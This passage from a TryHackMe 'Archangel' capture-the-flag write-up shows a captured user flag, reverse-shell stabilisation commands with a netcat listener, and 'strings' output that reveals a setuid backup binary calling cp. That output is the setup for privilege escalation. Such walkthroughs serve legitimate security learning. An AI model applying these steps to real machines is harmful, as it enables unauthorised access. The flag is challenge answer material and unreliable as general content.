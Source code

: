 ```bash
archangel@ubuntu:~/secret$ ls                                                                  
ls                                                                                             
backup                                                                                         
user2.txt                                                                                      
archangel@ubuntu:~/secret$ cat user2.txt                                                            
cat user2.txt                                                                                  
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}                
```

And we have the ==**User2 flag**==
## Archangel to Root

First we do [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) again :

```bash
TERM environment variable not set.
archangel@ubuntu:~/secret$ export TERM=xterm
export TERM=xterm
archangel@ubuntu:~/secret$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
archangel@ubuntu:~/secret$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                               
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 4444
                               reset
archangel@ubuntu:~/secret$ 
```

Now we check other file with `strings` to make it visible :

```bash
archangel@ubuntu:~/secret$ ls
backup  user2.txt
archangel@ubuntu:~/secret$ strings backup
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
:*3$''
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
backup.c
__FRAME_END__
```